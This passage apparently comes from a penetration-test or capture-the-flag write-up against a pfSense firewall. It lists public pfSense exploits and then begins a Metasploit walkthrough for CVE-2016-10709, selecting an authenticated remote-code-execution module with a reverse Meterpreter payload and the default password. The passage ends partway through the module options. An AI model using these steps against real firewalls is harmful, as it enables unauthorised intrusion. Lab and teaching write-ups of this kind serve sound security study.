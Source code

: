 pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)           | php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting              | php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                                   | multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting                 | php/webapps/46936.txt
pfSense 2.4.4-P3 - 'User Manager' Persistent Cross-Site Scripting                         | freebsd/webapps/48300.txt
pfSense 2.4.4-p3 - Cross-Site Request Forgery                                             | php/webapps/48714.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                            | php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                | php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                           | php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                              | php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                         | freebsd/webapps/24439.txt
------------------------------------------------------------------------------------------ ---------------------------------


## Initial access

### CVE-2016-10709

First test the vulnerability using Metasploit.

```
$ msfconsole -q
msf6 > search pfsense

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/unix/http/pfsense_clickjacking          2017-11-21       normal     No     Clickjacking Vulnerability In CSRF Error Page pfSense
   1  exploit/unix/http/pfsense_graph_injection_exec  2016-04-18       excellent  No     pfSense authenticated graph status RCE
   2  exploit/unix/http/pfsense_group_member_exec     2017-11-06       excellent  Yes    pfSense authenticated group member RCE


Interact with a module by name or index. For example info 2, use 2 or use exploit/unix/http/pfsense_group_member_exec

msf6 > use 1
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/http/pfsense_graph_injection_exec) > show options

Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
```